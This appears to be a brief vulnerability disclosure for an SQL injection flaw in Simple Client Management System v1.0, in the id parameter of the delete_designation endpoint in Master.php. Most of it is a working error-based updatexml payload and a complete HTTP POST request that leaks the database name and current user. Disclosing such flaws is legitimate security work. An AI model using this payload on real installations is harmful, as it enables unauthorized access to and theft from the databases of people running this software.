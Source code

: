 # Simple-Client-Management-System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15027/simple-client-management-system-php-source-code.html

Vulnerability File: /cms/classes/Master.php?f=delete_designation

Vulnerability location: /cms/classes/Master.php?f=delete_designation, id

[+] Payload: id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /cms/classes/Master.php?f=delete_designation HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=3m0l1n81dvmlo0a3h9oo72q1gp
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 61

id=1' and updatexml(1,concat(0x7e,(select user()),0x7e),0)--+ // Leak place ---> id
```
![image](https://user-images.githubusercontent.com/54017627/164883305-ddabbead-a776-479b-b64c-934172cf5942.png)

